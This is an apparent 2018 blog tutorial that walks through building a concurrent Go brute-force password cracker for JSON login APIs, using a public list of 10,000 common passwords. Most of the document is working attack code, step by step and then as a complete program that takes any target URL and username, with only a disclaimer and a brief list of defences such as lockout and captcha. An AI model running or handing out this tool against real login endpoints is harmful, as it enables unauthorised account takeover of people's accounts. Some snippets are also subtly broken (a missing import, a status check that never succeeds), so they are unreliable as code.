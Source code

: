 ```yaml
---
title: "Creating a Brute Force REST API Password Cracker"
date: 2018-06-24T07:49:00-04:00
draft: false
keywords:
- golang
- security
- password cracker
---
```


# Golang Password Cracker

### Disclaimer
All views and opinions expressed in this document are my own and not indicative of my employer's viewpoints in any regard. Furthermore, this exercise is intended to demonstrate the need for more robust passwords. The created program should not be used for anything malicious.

### Password Security & Best Practices
[Krebs Take](https://krebsonsecurity.com/password-dos-and-donts/)

I'm sure we've all seen user accounts with shoddy passwords, to demonstrate how easy it is to gain access to these accounts let's see if we can brute force their passwords.

First things first, we need a password list, so let's grab [one](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-10000.txt)

Now we need to build a program that makes a POST request to a JSON REST API. Ideally, we would pass in the username we want to target, and the url of the application so we can test out multiple platforms.

To build this program, let's use Golang because it's simple, fast, and excels in concurrency which will enable to make all the requests in parallel.

### Steps
1. Download Golang [mac](https://golang.org/doc/install?download=go1.10.1.darwin-amd64.pkg)
1. Create a folder in your golang directory (wherever you specified it) called `golang-brute-password`
1. Move the password file to the folder, call it `passwords.txt`
1. Create file main.go with the following
   ``` 
   package main

   func main(){
      fmt.Println("HELLO WORLD")
   }
   ```
1. run `go run main.go` -> you should see "HELLO WORLD" in the console
1. Let's create a function to read in the passwords and return an array of passwords. This should do:

   ```
      // readInPasswords, reads in the passwords file and returns a slice of strings (array of strings)
      func readInPasswords(passwordFile string) []string {
         b, err := ioutil.ReadFile(passwordFile) // just pass the file name
         if err != nil {
            fmt.Println(err)
         }
         str := string(b) // convert content to a 'string'

         return strings.Split(str, "\n")
      }
   ```
1. Now we need a function to actually make the POST request to the specified url. Try this:
   ```

   // postToURL
   // Succeeded = true if res.status == 200
   func postToURL(url string, username string, password string) (succeeded bool) {
      fmt.Println("password: ", password)
      values := map[string]string{"username": username, "email": username, "password": password}

      jsonValue, _ := json.Marshal(values)

      resp, err := http.Post(url, "application/json", bytes.NewBuffer(jsonValue))
      if err != nil {
         fmt.Println("Error occured: ", err)
         return false
      }
      defer resp.Body.Close()
      fmt.Println("Response status: ", resp.Status)
      var body interface{}
      json.NewDecoder(resp.Body).Decode(&body)
      fmt.Println(body)
      return resp.Status == "200"
   }

   ```
1. Now let's grab the url and username to target from the program arguments

   ```
   if len(os.Args) != 3 {
         log.Fatal("Please url to post and username")
      }
      url := os.Args[1]
      username := os.Args[2]
      passwords := readInPasswords("passwords.txt")
   ```
1. Now let's use a simple for loop to make the requests
   ```

      // one after another
      // for _, password := range passwords {
      // 	fmt.Println("password is: ", password)

      // 	if postToURL(url, username, password) {
      // 		fmt.Println("password is: ", password)
      // 	}
      // }
   ```
1. That's slow as hell, let's do it concurrently
   ```
      var wg sync.WaitGroup
      wg.Add(len(passwords))
      foundPassword := ""
      for _, password := range passwords {
         go func(password string) {
            defer wg.Done()
            fmt.Println("password is: ", password)
            if postToURL(url, username, password) {
               foundPassword = password
               fmt.Println("password is: ", password)
            }
         }(password)
      }

      wg.Wait() // wait until the for loop finishes
      fmt.Println("found password is: ", foundPassword)
   ```

1. Now we should be able to iterate through the password list in under 4-5 seconds... Wow..
1. How could we fix this and prevent users from weak passwords from being vulnerable to this attack?
      - Lock account after 5 failed login attempts. Need to contact an admin or re-verify your email.
      - Require the user fill out a Recaptcha on login.
      - Enforce strict password requirements. 8 characters + and 2 complexity cases
1. By processing each request or rate limiting the client, a server makes itself exceptionally vulnerable to DDOS. For those who don't know Krebs did a great writeup on DDOS [here](https://krebsonsecurity.com/tag/ddos/).

## Ps. our final program should look like this:

```
package main

import (
	"bytes"
	"encoding/json"
	"fmt"
	"io/ioutil"
	"log"
	"net/http"
	"os"
	"strings"
	"sync"
)

/*Main
 * Requires the url, port, and username to be sent as environment variables
 * Makes a POST request to the url with fields username, email, and password
 * Username and email values are set to the value provided in the program argument
 * Password values are taken from the passwords.txt file
 * All requests are JSON content type
 */
func main() {
	if len(os.Args) != 3 {
		log.Fatal("Please provide url and username")
	}
	url := os.Args[1]
	username := os.Args[2]
	passwords := readInPasswords("passwords.txt")

	// multithreaded solution
	var wg sync.WaitGroup
	wg.Add(len(passwords))
	foundPassword := ""
	for _, password := range passwords {
		go func(password string) {
			defer wg.Done()
			if postToURL(url, username, password) {
				foundPassword = password
			}
		}(password)
	}

	wg.Wait() // wait until the for loop finishes
	fmt.Println("found password is: ", foundPassword)
}

// readInPasswords, reads in the passwords file and returns a slice of strings (array of strings)
func readInPasswords(passwordFile string) []string {
	b, err := ioutil.ReadFile(passwordFile) // just pass the file name
	if err != nil {
		fmt.Println(err)
	}
	str := string(b) // convert content to a 'string'

	return strings.Split(str, "\n")
}

// postToURL
// Succeeded = true if res.status == 200
func postToURL(url string, username string, password string) (succeeded bool) {
	values := map[string]string{"username": username, "email": username, "password": password}

	jsonValue, _ := json.Marshal(values)

	resp, err := http.Post(url, "application/json", bytes.NewBuffer(jsonValue))
	if err != nil {
		fmt.Println("Error occured: ", err)
		return false
	}
	defer resp.Body.Close()
	if resp.StatusCode == 200 {
		fmt.Println("Response status: ", resp.Status)
		var body interface{}
		json.NewDecoder(resp.Body).Decode(&body)
		fmt.Println(body)
	}
	return resp.StatusCode == 200
}

```

